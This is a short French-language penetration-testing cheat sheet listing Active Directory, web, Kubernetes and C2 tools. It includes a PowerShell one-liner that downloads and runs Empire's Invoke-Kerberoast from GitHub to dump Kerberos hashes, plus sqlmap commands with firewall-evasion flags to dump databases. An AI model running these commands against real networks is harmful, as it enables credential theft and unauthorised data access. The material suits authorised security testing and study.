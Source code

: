 # mycheatsheet

## AD

* linWinPwn super outil pour automatiser les attaques sur l'AD : https://github.com/lefayjey/linWinPwn
* https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/kerberoasting
### Windows 

	* IEX(IWR https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1);Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
 
* Il marche très bien et sort un fichier hashes.kerberoast
* https://exploit-notes.hdks.org/exploit/windows/active-directory/kerberos-pentesting/
* https://github.com/blackc03r/OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting.md
 
### bloodhound delete data
```
MATCH (n) OPTIONAL MATCH (n)-[r]-() DELETE n,r
```
## Pentest Web
* whatweb
* gobuster
* Bypass firewall
	* sqlmap -u "http://..room.php?code=3" --dbs --random-agent --delay 1
* possible de passer à delay 10 pour mieux bypass mais plus long
* --dump -D information-schema --delay 5

## Kubernetes
* Hubble: Pour inspecter service et réseau sur K8S https://github.com/cilium/hubble

## C2C
* Vilain c'est un peu comme meterpreter mais un peu mieux fait : https://github.com/t3l3machus/Villain

# Network
* Legion: https://github.com/GoVanguard/legion
## Pentest plateforme
* Rekono : https://github.com/pablosnt/rekono?search=1
* Sniper: https://github.com/1N3/Sn1per

## BEEF XSS

https://www.golinuxcloud.com/beef-hacking-framework-tutorial/

https://programmingdigest.com/python-simple-http-server-a-quick-and-easy-way-to-serve-web-content/

